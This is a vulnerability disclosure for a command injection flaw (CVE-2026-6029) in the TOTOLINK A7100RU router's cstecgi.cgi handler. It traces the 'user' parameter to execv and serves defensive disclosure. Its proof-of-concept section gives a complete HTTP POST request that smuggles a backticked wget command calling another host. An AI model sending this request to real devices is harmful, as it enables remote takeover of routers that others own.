





# A7100RU Vulnerability（CVE-2026-6029）

Vendor:TOTOLINK

Product:A7100RU

Version:7.4cu.2313_b20191024	

Vulnerability: Command Injection

Download:http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

Author:Li Tengzheng


## Descriptions

We found a Command Injection vulnerability  in `cstecgi.cgi` , allows remote attackers to execute arbitrary OS commands from a crafted request:

<div  align="center"></div>

In sub_42F8EC function, it reads in a user-provided parameter `user` and passes its value to Uci_Set_Str function,which is defined in libcscommon.so.

<div  align="center"></div>

However ,the value of the `user`  is inserted into `v11`  using `snprintf`,and the value of v11 will be handled by the function CsteSystem.

<div  align="center"></div>

Finally,the command will be executed by  execv() in CsteSystem

<div  align="center"></div>


## Proof of Concept (PoC)

We set `user` as **\`wget 192.168.6.1:7777/testpoc\`** , and the router will execute it,such as:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.6.2
Content-Length: 74
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Origin: http://192.168.6.2
Referer: http://192.168.6.2/basic/index.html
Accept-Encoding: gzip, deflate, br
Cookie: SESSION_ID=2:1772465702:2
Connection: keep-alive

{"topicurl":"setVpnAccountCfg","user":"`wget 192.168.6.1:7777/testpoc`"
}
```

## Result

As a result, after submitting the packet, we discovered that the wget command was executed in the Ubuntu terminal.

<div  align="center"></div>


